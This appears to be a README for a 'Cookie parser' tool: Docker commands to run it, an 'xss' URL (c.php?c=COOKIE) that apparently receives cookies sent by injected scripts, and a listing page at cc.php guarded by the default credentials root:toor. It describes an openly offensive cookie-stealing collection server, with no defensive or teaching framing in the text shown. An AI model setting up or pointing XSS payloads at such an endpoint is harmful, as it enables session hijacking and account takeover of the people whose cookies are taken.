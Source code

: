 # Cookie parser

Run : 

```bash
docker build . -t cookie-parser 
docker run -d -v $(pwd)/data:/var/www/html/data -p 80:80 --name cookie-parser cookie-parser
```

Url for xss : http://localhost/c.php?c=COOKIE
Url for get list : http://localhost/cc.php with root:toor for login


